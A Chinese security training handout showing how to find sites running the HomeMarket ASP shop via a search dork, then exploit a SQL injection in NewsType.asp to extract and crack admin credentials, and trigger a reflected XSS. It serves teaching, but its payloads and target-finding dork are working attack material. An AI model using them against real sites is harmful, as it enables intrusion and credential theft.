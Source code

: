 ```yaml
---
title: 米斯特白帽培训讲义 实战篇 南方 0day
id: csdn53885944
---
```


# 米斯特白帽培训讲义 实战篇 南方 0day

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 搜索

关键词：`inurl:"HomeMarket.asp"`。

## 下载与部署

[http://www.jb51.net/article/5336.htm](http://www.jb51.net/article/5336.htm)

## SQL 注入

我们打算检测其中的 SQL 注入漏洞，由于 ASP 代码基本没有什么好的过滤，一般一查一个准。为了搜索 SQL 注入漏洞，我们可以使用`sql`、`conn`这类名称、或者`execute`这类函数来定位到数据库查询低吗位置。

比如在`NewsType.asp`的 14 ~ 32 行，我们发现了：

```
 <%
' ...
BigClass=request("BigClass")
SmallClass=request("SmallClass")
' ...
%>
<%
if BigClass<>"" and SmallClass<>"" then
sql="select  * from News where BigClassName='"& BigClass &"' and  SmallClassName='"& SmallClass &"' order by AddDate desc"
set rs=conn.execute(sql)
do while not rs.eof 
%>
```

我们看到这是文本型的参数，也就是说我们注入的时候要想办法闭合单引号。而且它用的是 Access 数据库，我们没办法像 MySQL 和 SQLServer 那样使用`--`来注释。

我们照旧为`SmallClass`输入`' and '1'='1`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%271`，发现正常。

![](../img/847c75316a2d57a160a4127eec3d3f3a.png)

输入`' and '1'='2`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%272`，发现错误。

![](../img/94799ece319111604e40eefc27eb2815.png)

接下来我们查看源码目录下的`Databases/0791idc.mdb`，知道了`News`表一共有十个字段。

之后输入`' and 1=2 union select 1,2,3,4,5,6,7,8,9,0 from admin where '1'='1`，发现显示 2 和 9：

![](../img/a9b0c5d2b28b55b12efb620a08056a7d.png)

之后就很简单了，我们先看看`admin`表里面的用户名和密码都叫做啥。我们把 2 替换为`username`，9 替换为`password`。

![](../img/e6e9f554bb01ca4f115ed54ad1879c81.png)

然后把`f3a976c77dc7264c`送到 pmd5 解密，结果为`060618`。

之后可以从`/admin`访问后台，登录并继续拿 WebShell。

## XSS

我们点击网站右上角的“联系我们”，可以发现这个页面的 URL 中出现了这四个字，页面中也出现了这四个字。

![](../img/37598b83724341d640f5fbb9cdf5844b.png)

然后我们把 URL 中的`Title`参数改成`1`：

![](../img/94dacd9f8ebbc8f1df93bf21c24465b8.png)

这就提示我们这里面可能会出现 XSS，我们改成`<script>alert(1)</script>`：

![](../img/6b51d6562c9ad64927fbeba68a61cad6.png)

我们看到源代码中出现了这个东西。